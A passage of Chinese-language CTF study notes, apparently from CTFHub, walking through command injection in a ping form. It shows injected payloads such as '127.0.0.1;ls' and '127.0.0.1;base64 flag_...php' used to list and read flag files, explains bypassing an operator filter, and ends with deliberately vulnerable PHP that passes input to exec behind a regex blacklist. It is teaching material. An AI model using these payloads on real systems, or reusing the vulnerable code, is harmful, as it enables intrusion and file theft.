 然后使用以下命令，发现可疑文件

```
127.0.0.1;ls
```

![image-20240121230530483](E:\学习资料\网安\笔记\笔记截图\image-20240121230530483.png)

接着构造如下命令查看文件夹里面的信息,发现flag文件

```
127.0.0.1;cd flag_is_here;ls
```

![image-20240121231135141](E:\学习资料\网安\笔记\笔记截图\image-20240121231135141.png)

构造命令查看文件信息

```
127.0.0.1;cd flag_is_here;cat flag_88581659216854.php|base64
```

![image-20240121231438146](E:\学习资料\网安\笔记\笔记截图\image-20240121231438146.png)

**过滤运算符**

也就是说|base64不能用了，那么我们可以换一种方式，先查看文件

```
127.0.0.1;ls
```

![image-20240122001740087](E:\学习资料\网安\笔记\笔记截图\image-20240122001740087.png)

既然计算运算符被过滤掉了，那么我们可以这样构造

```
127.0.0.1;base64 flag_323101696029831.php
```

![image-20240122002157027](E:\学习资料\网安\笔记\笔记截图\image-20240122002157027.png)

**综合过滤练习**

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```
